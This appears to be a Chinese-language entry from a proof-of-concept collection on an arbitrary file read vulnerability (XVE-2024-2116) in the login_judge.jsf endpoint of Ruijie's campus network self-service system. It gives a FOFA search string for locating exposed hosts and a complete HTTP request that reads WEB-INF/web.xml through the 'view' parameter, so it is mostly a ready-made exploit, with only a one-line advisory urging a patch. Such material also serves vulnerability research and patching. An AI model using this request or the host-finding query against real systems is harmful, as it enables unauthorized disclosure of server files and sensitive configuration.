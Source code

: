 ## 锐捷校园网自助服务系统login_judge.jsf任意文件读取漏洞(XVE-2024-2116)

校园网自助服务系统/selfservice/selfservice/module/scgroup/web/login_judge.jsf 接口处存在任意文件读取漏洞，经过分析和研判，该漏洞利用难度低，可导致敏感信息泄漏，建议尽快修复。

## fofa

```
body="校园网自助服务系统"
```

## poc

```
GET /selfservice/selfservice/module/scgroup/web/login_judge.jsf?view=./WEB-INF/web.xml%3F HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20240609163957648](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406091639825.png)